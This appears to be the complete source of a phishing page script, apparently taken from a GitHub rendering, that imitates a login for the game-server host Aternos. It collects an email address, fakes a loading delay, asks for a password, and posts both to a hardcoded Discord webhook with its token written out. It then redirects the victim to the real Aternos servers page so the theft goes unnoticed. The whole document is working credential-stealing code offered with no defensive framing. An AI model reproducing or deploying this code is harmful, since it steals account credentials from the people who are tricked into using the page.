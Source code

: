 document.getElementById('submit-email').addEventListener('click', () => {
    const email = document.getElementById('email').value;
    const webhookURL = 'https://discord.com/api/webhooks/1313513927220658226/Y0r4VtaGqbUnWRefochVEgLA9s1F_XOS47qjRMKTDQt4IZIx3b5Bt-UJbI3CPkbWWmhH';

    const formContainer = document.getElementById('form-container');
    formContainer.innerHTML = '<p>Loading<span id="dots"></span></p>';
    let dots = '';
    const dotInterval = setInterval(() => {
        dots = dots.length < 3 ? dots + '.' : '';
        document.getElementById('dots').textContent = dots;
    }, 500);

    setTimeout(() => {
        clearInterval(dotInterval);
        formContainer.innerHTML = `
        <input type="password" id="password" placeholder="Enter Password">
        <button id="submit-password">Submit</button>
        `;

        document.getElementById('submit-password').addEventListener('click', () => {
            const password = document.getElementById('password').value;

            fetch(webhookURL, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({
                    content: `Email: ${email}\nPassword: ${password}`
                })
            });
            window.location.href = 'https://aternos.org/servers';
        });
    }, 3000);
});

